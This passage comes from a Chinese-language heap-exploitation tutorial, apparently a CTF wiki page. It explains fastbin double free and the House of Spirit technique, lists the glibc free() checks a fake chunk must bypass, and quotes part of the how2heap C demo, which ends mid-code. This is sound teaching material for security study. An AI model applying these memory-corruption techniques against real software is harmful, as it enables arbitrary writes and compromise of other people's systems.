 ### 小總結
通過 fastbin double free 我們可以使用多個指針控制同一個堆塊，這可以用於篡改一些堆塊中的關鍵數據域或者是實現類似於類型混淆的效果。
如果更進一步修改 fd 指針，則能夠實現任意地址分配堆塊的效果( 首先要通過驗證 )，這就相當於任意地址寫任意值的效果。

## House Of Spirit

### 介紹

House of Spirit 是 `the Malloc Maleficarum` 中的一種技術。

該技術的核心在於在目標位置處僞造 fastbin chunk，並將其釋放，從而達到分配**指定地址**的 chunk 的目的。

要想構造 fastbin fake chunk，並且將其釋放時，可以將其放入到對應的 fastbin 鏈表中，需要繞過一些必要的檢測，即

- fake chunk 的 ISMMAP 位不能爲1，因爲 free 時，如果是 mmap 的 chunk，會單獨處理。
- fake chunk 地址需要對齊， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要滿足對應的 fastbin 的需求，同時也得對齊。
- fake chunk 的 next chunk 的大小不能小於 `2 * SIZE_SZ`，同時也不能大於`av->system_mem` 。
- fake chunk 對應的 fastbin 鏈表頭部不能是該 fake chunk，即不能構成 double free 的情況。

至於爲什麼要繞過這些檢測，可以參考 free 部分的源碼。

### 演示

這裏就直接以 how2heap 上的例子進行說明，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
```